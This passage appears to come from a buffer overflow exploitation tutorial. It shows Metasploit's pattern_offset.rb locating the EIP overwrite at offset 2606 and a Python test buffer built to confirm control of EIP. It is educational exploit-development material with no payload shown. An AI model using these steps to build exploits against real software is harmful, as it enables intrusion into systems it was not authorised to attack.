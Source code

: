 - We can now use the companion to pattern_create, pattern_offset.rb, to discover the offset of these specific 4 bytes in our unique byte string.

![EIP Overwritten by the Unique Pattern](./../images/34.png)

```Shell
> /usr/share/metasploit-framework/tools/pattern_offset.rb 39694438
# running resutl :[*] Exact match at offset 2606
```

- The pattern_offset.rb script reports these 4 bytes being located at offset 2606 of the 2700 bytes.
- Let’s translate this to a new modified buffer string, and see if we can control the EIP register. We modify our exploit to contain the following buffer string

```python
buffer = "A" * 2606 + "B" * 4 + "C" * 90
```
